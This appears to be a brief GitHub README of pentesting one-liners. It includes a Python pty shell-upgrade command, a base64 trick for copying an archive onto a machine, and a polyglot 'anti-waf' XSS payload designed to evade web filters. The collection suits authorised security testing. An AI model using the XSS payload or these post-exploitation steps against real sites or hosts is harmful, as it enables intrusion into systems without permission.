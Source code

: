 # oneliners
Collection of handy one line things 

# ye olde pty 
python -c 'import pty; pty.spawn("/bin/bash")'

## Upload not one line
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF

# pentest 

## anti-waf
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
